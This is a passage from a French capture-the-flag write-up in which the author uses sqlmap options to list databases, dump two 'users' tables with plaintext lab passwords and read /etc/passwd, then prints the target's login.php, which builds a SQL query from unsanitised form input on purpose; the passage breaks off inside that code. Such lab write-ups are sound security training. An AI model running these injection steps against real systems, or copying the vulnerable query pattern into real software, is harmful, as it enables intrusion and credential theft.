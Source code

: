 Avec l'option `--dbs` de sqlmap, j'obtiens la liste des bases :

```
available databases [6]:
[*] information_schema
[*] mysql
[*] Nebuchadnezzar
[*] performance_schema
[*] sion
[*] sys
```

J'enchaine avec `--tables` et découvre que les bases `Nebuchadnezzar` et `sion` disposent toutes les deux d'une table `users`.

```
Database: Nebuchadnezzar
Table: users
[2 entries]
+----+--------------------+----------+
| id | password           | username |
+----+--------------------+----------+
| 1  | F4ckTh3F4k3H4ck3r5 | shelly   |
| 2  | cambiame2025       | admin    |
+----+--------------------+----------+

Database: sion
Table: users
[2 entries]
+----+--------------------+----------+
| id | password           | username |
+----+--------------------+----------+
| 1  | F4ckTh3F4k3H4ck3r5 | shelly   |
| 2  | cambiame08         | admin    |
+----+--------------------+----------+
```

La connexion avec les identifiants n'apporte rien de plus. Avec `--file-read /etc/passwd` je peux confirmer qu'il y a un utilisateur `shelly` sur le système.

Je peux aussi lire le `login.php` qui effectivement ne permet rien d'autre que l'authentification :

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);

// Conexión a la base de datos (¡ajustar usuario y contraseña!)
$mysqli = new mysqli("localhost", "root", "test", "sion");

if ($mysqli->connect_error) {
    die("Error de conexión: " . $mysqli->connect_error);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['user'] ?? '';
    $password = $_POST['pass'] ?? '';

    // Vulnerabilidad intencional: sin sanitización
    $query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
    $result = $mysqli->query($query);

    echo "<pre style='color:#00ff00;'>";

    if ($result && $result->num_rows > 0) {
        echo "Acceso concedido. Bienvenido, $username.";
    } else {
```